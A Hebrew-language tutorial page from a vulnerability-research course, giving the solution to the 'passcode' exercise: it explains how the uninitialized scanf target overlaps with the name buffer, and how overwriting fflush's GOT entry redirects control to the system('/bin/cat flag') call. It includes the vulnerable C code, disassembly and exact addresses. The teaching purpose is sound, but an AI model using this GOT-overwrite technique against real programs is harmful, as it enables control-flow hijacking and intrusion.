

repository: AmitPinchasi/amittech · page: מחקר-חולשות/5 - חולשות מחרוזת פורמט/5.4 - דריסת GOT וחטיפת זרימה/5.4 - דריסת GOT וחטיפת זרימה - פתרון/index.html · generator: mkdocs

## פתרון - דריסת GOT וחטיפת זרימה

כאן נעבור על הפתרון המלא של שני האתגרים, עם הכתובות המדויקות, פקודות לשחזור, וקוד exploit מלא ב-pwntools. החוט המשותף: בשניהם אנחנו משיגים כתיבה שרירותית - פעם מ-`scanf` בלי `&` ופעם מ-`%n` - ומכוונים אותה מעל תא ב-GOT כדי לחטוף את זרימת התוכנית.

הערה על כתובות: המספרים המדויקים תלויים בעותק הבינארי שלכם. לכן ה-exploit שולף את הכתובות **מהבינארי עצמו** עם `elf.got[...]`, ואת כתובת ה"ניצחון" מהדיסאסמבלי. אם תריצו על עותק אחר, אותן פקודות יפיקו לכם את הכתובות הנכונות - אל תעתיקו מספר בעיוורון.

### פתרון תרגיל 1 - passcode

נזכיר את הבאג המרכזי ב-`login`:

```c
void login(){
	int passcode1;
	int passcode2;
	printf("enter passcode1 : ");
	scanf("%d", passcode1);   // without & -> passcode1 is used as the target address
	fflush(stdin);            // called immediately -> an excellent overwrite target
	...
	if(passcode1==338150 && passcode2==13371337){
		printf("Login OK!\n");
		system("/bin/cat flag");
	}
	...
}
```

#### שלב 1 - מיפוי החפיפה בין name ל-passcode1

נפרק את שתי הפונקציות ונחפש את ה-offsets יחסית ל-`ebp`:

```bash
gdb -q ./passcode
pwndbg> disassemble welcome
   ... lea eax, [ebp-0x70] ; <-- name sits at ebp-0x70
   ... call scanf          ; scanf("%100s", name)
pwndbg> disassemble login
   ... mov eax, [ebp-0x10] ; <-- passcode1 sits at ebp-0x10
   ... call scanf          ; scanf("%d", passcode1)
   ... call fflush
```

ההפרש: `0x70 - 0x10 = 0x60 = 96`. כלומר הבתים 96-99 של `name` הם בדיוק `passcode1`. נכתוב 96 בתי מילוי ואז 4 בתים שיהיו הכתובת שנרצה ש-`passcode1` יחזיק.

#### שלב 2 - מציאת יעד הדריסה ב-GOT

נדרוס את התא של `fflush`, כי היא נקראת מיד אחרי ה-`scanf` הראשון:

```bash
objdump -R ./passcode | grep fflush
# 0804a004 R_386_JUMP_SLOT   fflush
```

הכתובת `0x0804a004` נוחה במיוחד: הבית הנמוך שלה הוא `0x04`, שאינו בית לבן, אז `scanf("%100s")` לא ייעצר עליו. ב-pwntools פשוט נכתוב `elf.got['fflush']`.

#### שלב 3 - מציאת כתובת ה"ניצחון"

נפרק את `login` ונחפש את הקטע שמריץ `system("/bin/cat flag")`:

```bash
objdump -d ./passcode | grep -A2 'call.*system'
```

הקטע הרלוונטי נראה כך:

```asm
080485e3:  mov  DWORD PTR [esp], 0x80487af   ; loads the string "/bin/cat flag"
080485ea:  call 8048440 <system@plt>          ; system("/bin/cat flag")
```

כתובת ה"ניצחון" היא `0x080485e3` - השורה שטוענת את הארגומנט ומיד אחריה קוראת ל-`system`. אם נקפוץ לשם, `system("/bin/cat flag")` ירוץ בלי קשר לבדיקת הסיסמאות. בעשרוני: `0x080485e3 = 134514147`.
